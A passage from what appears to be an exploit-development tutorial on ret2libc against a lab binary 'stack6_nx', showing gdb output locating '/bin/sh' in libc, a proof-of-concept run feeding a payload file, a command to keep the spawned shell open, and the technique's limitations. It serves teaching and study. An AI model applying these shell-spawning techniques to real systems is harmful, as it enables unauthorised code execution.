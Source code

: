 ```
	Start Addr   End Addr       Size     Offset objfile
...TRIM...
	0xf7e12000 0xf7fba000   0x1a8000        0x0 /lib32/libc-2.19.so
	0xf7fba000 0xf7fbc000     0x2000   0x1a7000 /lib32/libc-2.19.so
	0xf7fbc000 0xf7fbd000     0x1000   0x1a9000 /lib32/libc-2.19.so
...TRIM...

(gdb) find 0xf7e12000,0xf7fbd000,"/bin/sh"
0xf7f71fcc
1 pattern found.

(gdb) x/s  0xf7f71fcc
0xf7f71fcc:	"/bin/sh"
```

2. Using **execve()** instead of **system()** might be better. Many people complains because of **system()** is not supported on their hosts. Be careful, execve() takes 3 args.

3. Using ENV variables can be an option to use as the function argument ("**SHELL=/bin/bash**").


#### 2.4 Final PoC

Following did not work for me, but it might work on yours:
```
(gdb) source x.py 
...TRIM...
(gdb) r <<< $(cat /tmp/exploit)
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: stack6_nx <<< $(cat /tmp/exploit)
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp��AAAAAAAAAAAAp��PO����
[Inferior 1 (process 13214) exited normally]

(gdb) r < /tmp/exploit 
Starting program: stack6_nx < /tmp/exploit
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp��AAAAAAAAAAAAp��PO����
[Inferior 1 (process 13639) exited normally]
```

```
$ (cat /tmp/exploit; cat) | ./stack6_nx
```

#### 2.5 Limitations of ret2libc

1. If functions are removed from libc/library.
2. If mitigations are used such as [ASCII Armoring](https://en.wikipedia.org/wiki/Binary-to-text_encoding#ASCII_armor): libc addresses contain a NULL byte (0x00). Then attacker can check for **return2plt** attack (system@plt etc).
3. If ASLR is used.

